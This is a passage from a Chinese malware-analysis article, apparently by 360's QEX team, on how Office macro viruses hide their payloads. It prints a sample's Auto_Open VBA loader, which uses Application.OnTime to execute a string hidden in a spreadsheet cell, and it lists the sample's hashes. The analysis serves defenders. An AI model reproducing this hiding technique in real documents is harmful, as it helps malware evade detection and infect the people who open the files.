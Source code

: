 # 技术揭秘：宏病毒代码三大隐身术

0x00 简介
=======

* * *

作为一类古老的病毒，宏病毒随着勒索软件的兴起而卷土重来。尤其是在2016年，以Locky为代表的勒索软件利用Office宏肆虐传播，宏病毒也成为目前最活跃的病毒品种之一。

在与安全软件的对抗中，宏病毒使用了多种手段隐藏其恶意代码或数据，近期出现的新变种则是利用Excel表格的函数动态生成PE文件数据、设置远距离存放位置、隐藏显示、不同表切换等方式进行隐藏。接下来，360QEX引擎团队将对宏病毒代码流行的三类“隐身术”进行逐一揭秘。

0x01 Excel表格隐藏数据
================

* * *

*   样本文件md5: 48f202f903741e7a1722bfa6b4c051aa.xls
*   sha256: 083a05000c4b8e9a88a0ff8a95a3d9826dd389b440bb1781237ca124b0d986a7

virustotal 扫描结果：

![p1](http://drops.javaweb.org/uploads/images/af6cd9c949ab9f9859ac2f176fe6617bdb3627be.jpg)

样本对自身 VBAProject 进行了加密，

![p2](http://drops.javaweb.org/uploads/images/3d0c606c8a2a268b97c13cbfa03c31e4fc3f7dee.jpg)

破解之后，看到了宏代码执行入口函数 Auto_Open，

```
Sub Auto_Open()

On Error Resume Next
Application.DisplayAlerts = False
Dim WB As Workbook
Set WB = ActiveWorkbook

Dim Sh1, Sh2, sh3 As Worksheet
Set Sh1 = WB.Sheets(1)
Set Sh2 = WB.Sheets(2)
Set sh3 = WB.Sheets(3)
Dim str As String
str = Sh2.Cells(996, 40)
Dim t As Date
t = Now + TimeSerial(0, 0, 1)
Application.OnTime t, str

End Sub

```

病毒作者使用 Application.OnTime 函数，间隔 1 秒，执行 字符串 “str” ，”str” 的值是从表格 Cells(996, 40) 中获取，当去查看表格中该处值时发现病毒更改了Excel单元格格式 ，把数据隐藏显示。
